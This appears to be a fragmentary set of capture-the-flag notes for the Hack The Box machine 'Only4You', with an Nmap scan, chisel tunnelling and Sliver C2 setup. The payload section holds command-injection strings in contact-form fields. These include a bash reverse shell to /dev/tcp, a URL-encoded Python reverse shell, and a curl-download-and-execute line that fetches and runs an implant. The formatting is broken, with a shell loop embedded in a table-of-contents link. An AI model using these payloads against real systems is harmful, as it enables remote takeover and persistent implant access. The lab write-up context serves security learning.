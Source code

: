 ## Table of Contents

      - [Nmap](#Nmap)
- [Fingerprint web applications for p in 3000 8001; do wappalyzer http://127.0.0.1:$p | tee logs/web-$p.json; done```](#fingerprint\web\applications\for\p\in\3000\8001;\do\wappalyzer\http://127.0.0.1:$p\|\tee\logs/web-$p.json;\done```)

#### Nmap
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 04:19 EDT
Nmap scan report for 10.10.11.210
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)


| ssh-hostkey: 
|   3072 e8:83:e0:a9:fd:43:df:38:19:8a:aa:35:43:84:11:ec (RSA)
|   256 

83:f2:35:22:9b:03:86:0c:16:cf:b3:fa:9f:5a:cd:08 (ECDSA)
|_  256 

44:5f:7a:a3:77:69:0a:77:78:9b:04:e0:9f:11:db:80 (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)

|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

domain Found: Only4You


```
name=0xdf&email=0xdf@only4you.htb;+bash -c+'bash+-i+>&+/dev/tcp/10.10.16.5/4433+0>&1'&subject=test&message=test

http
subject=a&message=a&email=a%40google%2Ecom%20%26%26%20export%20RHOST%3D%2210.10.16.5%3Bexport%20RPORT%3D9001%3Bpython3%20%2Dc%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28%29%3Bs%2Econnect%28%28os%2Egetenv%28%22RHOST%22%29%2Cint%28os%2Egetenv%28%22RPORT%22%29%29%29%29%3B%5Bos%2Edup2%28s%2Efileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty%2Espawn%28%22sh%22%29%27


```


https://github.com/jpillora/chisel
```bash
#Install Chisel
$Docker
docker run --rm -it jpillora/chisel --help
#Source
go install github.com/jpillora/chisel@latest


--host - host
--port , -p Defines HTTP listening port (8080:Default)

```

Start chisel:
./chisel___LINUX___ server -p 8000 --reverse


CLIENT
./chisel client MACHINE_IP:PORT R:socks


```bash
netstat -ltnu

./chisel server -v -p 1234 --socks5






```


sliver
```bash
mtls MACHINE_IP -l LPORT

generate -e -l -G -o linux -m 10.10.14.2:8443 -s implant.elf

websites add-content -w onlyforyou -c implant.elf -p /f7ioYM

https -L LOCALIP -443 -w onlyforyou

```

#exploit cmd injection to download and execute from sliver implant

```bash
   blind_cmd "bash -c 'curl -ko /tmp/f7ioYM https://$lhost/f7ioYM;chmod +x /tmp/f7ioYM;/tmp/f7ioYM'"  ```


Listening ports missed from enum:
3306, 7474, 3000, 8001

use
portfwd add -r 127.0.0.1:3000 -b 127.0.0.1:3000
portfwd add -r 127.0.0.1:8001 -b 127.0.0.1:8001

```
# Fingerprint web applications for p in 3000 8001; do wappalyzer http://127.0.0.1:$p | tee logs/web-$p.json; done```
